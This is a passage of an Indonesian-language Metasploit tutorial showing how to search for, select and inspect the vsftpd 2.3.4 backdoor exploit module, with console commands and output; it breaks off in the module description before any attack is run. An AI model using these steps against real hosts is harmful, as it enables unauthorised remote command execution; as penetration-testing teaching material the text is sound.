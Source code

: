 Mencari exploit vsftpd 2.3.4

```
msf6 > search vsftpd 2.3.4

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor
```

Menggunakan exploit bisa dengan perintah `use exploit/unix/ftp/vsftpd_234_backdoor` atau `use 0`.


```
msf6 > use 0

[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > 
```

Melihat informasi ketik `show info`:

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show info

       Name: VSFTPD v2.3.4 Backdoor Command Execution
     Module: exploit/unix/ftp/vsftpd_234_backdoor
   Platform: Unix
       Arch: cmd
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2011-07-03

Provided by:
  hdm <x@hdm.io>
  MC <mc@metasploit.com>

Available targets:
      Id  Name
      --  ----
  =>  0   Automatic

Check supported:
  No

Basic options:
  Name    Current Setting  Required  Description
  ----    ---------------  --------  -----------
  RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
  RPORT   21               yes       The target port (TCP)

Payload information:
  Space: 2000
  Avoid: 0 characters

Description:
  This module exploits a malicious backdoor that was added to the       VSFTPD download
```